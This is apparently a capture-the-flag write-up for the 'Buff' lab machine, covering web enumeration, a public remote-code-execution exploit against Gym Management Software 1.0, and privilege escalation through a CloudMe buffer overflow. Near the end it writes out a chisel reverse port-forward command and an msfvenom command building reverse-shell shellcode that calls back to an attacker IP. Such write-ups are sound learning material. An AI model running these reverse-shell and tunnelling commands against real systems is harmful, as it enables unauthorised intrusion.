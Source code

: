 # Buff

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Gym

On port 8080, it was a gym-related page:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

We can use `gobuster` on the website to find more directories:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Checking the `contact.php` file, we see the software used to make this.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Then, we can search for exploits for this Gym Management Software 1.0.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We can try the RCE exploit:

{% embed url="https://www.exploit-db.com/exploits/48506" %}

By running the exploit, we would gain a webshell:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell via nc.exe or Powershell is trivial.

## Privilege Escalation

### CloudMe

When enumerating the user's directory, we find a CloudMe\_1112.exe file:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

When checking for exploits regarding CloudMe, we can find a few Buffer Overflow exploits that can be used for RCE using shellcode.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.exploit-db.com/exploits/48389" %}

CloudMe for this machine runs on port 8888 on this machine, so we can just run it and use chisel to port forward port 8888.

```bash
# on Kali
chisel server --port 4444 --reverse

# on host
.\chisel.exe 10.10.16.9:4444 R:8888:localhost:8888
```

Then, we need to generate new shellcode for the exploit:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
{% endcode %}

Afterwards, we can simply run the exploit and it would spawn a root shell on the listener port.
